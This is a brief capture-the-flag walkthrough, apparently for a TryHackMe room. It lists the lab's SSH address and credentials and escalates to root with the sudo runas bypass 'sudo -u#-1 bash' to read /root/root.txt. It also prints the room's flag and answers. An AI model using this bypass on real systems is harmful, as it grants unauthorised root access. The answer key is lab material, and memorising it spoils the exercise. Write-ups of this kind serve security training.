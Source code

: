 IP address : 10.10.19.136

for connection used ssh  at port 2222
user name tryhackme and password tryhackme
#1. What command are you allowed to run with sudo?
Ans. run sudo -l found /bin/bash user for all

#2 What is the flag in /root/root.txt?
Ans. Run sudo -u#-1 bash to go into root then run cat /root/root.txt
found the flag THM{l33t_s3cur1ty_bypass}

